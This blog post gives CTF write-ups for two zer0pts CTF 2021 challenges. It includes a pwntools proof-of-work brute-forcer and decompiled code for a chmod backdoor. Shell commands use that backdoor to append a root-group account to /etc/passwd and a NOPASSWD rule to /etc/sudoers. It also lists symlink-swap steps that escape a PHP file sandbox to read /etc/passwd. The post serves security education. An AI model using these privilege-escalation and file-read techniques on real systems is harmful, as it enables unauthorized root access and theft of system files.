 ```yaml
---
layout: post
title:  "zer0pts CTF 2021 writeups"
date:   2021-03-22 19:59:36 +0200
categories: ctf
---
```


These are the writeups for the [zer0pts CTF 2021](https://2021.ctf.zer0pts.com/) challenges that I personally solved. Pretty hard challenges, but again learned a lot!

## infected

There are two parts to this challenge. First to get through the initial part and to get a shell we need to figure out what input produces the correct hash when we have part of the source and the hash. Let's write a Python program to get past it:
```python=
from pwn import *
import itertools
import hashlib
import string


r = remote ('others.ctf.zer0pts.com',11011)

chall = r.recvline().decode('utf-8')

hashval = chall.split("=")[1].strip()
suffix = chall.split("=")[0][12:32]


table = string.ascii_letters + string.digits + "._"

for v in itertools.product(table, repeat=4):
    if hashlib.sha256((''.join(v) + suffix).encode()).hexdigest() == hashval:
        prefix = ''.join(v)
        print("[+] Prefix = " + prefix)
        r.sendline(prefix)
        r.interactive()
        break
else:
    print("[-] Solution not found :thinking_face:")

```
Now we have a shell and neet to read the flag at `/root`.  Reverse the provided binary with Ghidra to reveal how the backdoor works:
```c=
void backdoor_write(undefined8 param_1,char *param_2,size_t param_3)

{
  int iVar1;
  __mode_t __mode;
  char *__s;
  char *__s1;
  char *__file;
  char *__nptr;
  long in_FS_OFFSET;
  stat64 local_a8;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __s = strndup(param_2,param_3);
  if (__s == (char *)0x0) {
    fuse_reply_err(param_1,0x16);
    goto LAB_00100c8c;
  }
  __s1 = strtok(__s,":");
  __file = strtok((char *)0x0,":");
  __nptr = strtok((char *)0x0,":");
  if (((__s1 == (char *)0x0) || (__file == (char *)0x0)) || (__nptr == (char *)0x0)) {
    fuse_reply_err(param_1,0x16);
  }
  else {
    iVar1 = strncmp(__s1,"b4ckd00r",8);
    if (iVar1 == 0) {
      stat64(__file,&local_a8);
      if ((local_a8.st_mode & 0xf000) == 0x8000) {
        __mode = atoi(__nptr);
        iVar1 = chmod(__file,__mode);
        if (iVar1 == 0) {
          fuse_reply_write(param_1,param_3,param_3);
          goto LAB_00100c7d;
        }
      }
      fuse_reply_err(param_1,0x16);
    }
    else {
      fuse_reply_err(param_1,0x16);
    }
  }
LAB_00100c7d:
  free(__s);
LAB_00100c8c:
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
It reads from stdin and calls `chmod(2)` so it can be used to modify file permissions. The device is `/dev/backdoor` and the syntax of the command is `b4ckd00r:filename:permissions`.

Modify some file permissions:
```
echo "b4ckd00r:/etc/sudoers:222" > /dev/backdoor
echo "b4ckd00r:/etc/passwd:222" > /dev/backdoor
echo "pwn:x:1000:0:pwn:/root:/bin/sh" >> /etc/passwd
echo "pwn  ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "b4ckd00r:/etc/sudoers:444" > /dev/backdoor
```

and then `sudo su`to get a root shell and the flag.

## GuestFS::AFR
The source code is provided:
```php=
  function create($name, $type=0, $target="")
    {
        $this->validate_filename($name);

        if ($type === 0) {

            /* Create an empty file */
            $fp = @fopen($this->root.$name, "w");
            @fwrite($fp, '');
            @fclose($fp);

        } else {

            /* Target file must exist */
            $this->assert_file_exists($this->root.$target);

            /* Create a symbolic link */
            @symlink($target, $this->root.$name);

            /* This check ensures $target points to inside user-space */
            try {
                $this->validate_filepath(@readlink($this->root.$name));
            } catch(Exception $e) {
                /* Revert changes */
                @unlink($this->root.$name);
                throw $e;
            }

        }
    }

    * Security Functions */
    function validate_filepath($path)
    {
        if (strpos($path, "/") === 0) {
            throw new Exception('invalid filepath (absolute path)');
        } else if (strpos($path, "..") !== false) {
            throw new Exception('invalid filepath (outside user-space)');
        }
    }

    function validate_filename($name)
    {
        if (preg_match('/[^a-z0-9]/i', $name)) {
            throw new Exception('invalid filename');
        }
    }

    function assert_file_exists($name)
    {
        if (file_exists($name) === false
            && is_link($name) === false) {
            throw new Exception('file not found');
        }
    }

```
It reveals how to bypass the security checks using the following steps:

1. create regular file foo
2. create symlink bar to foo
3. delete regular file foo (it just unlinks)
4. create new symlink bar to LFI `/../../../../../etc/passwd`
5. read contens of foo

the flag location is `/../../../../../flag`

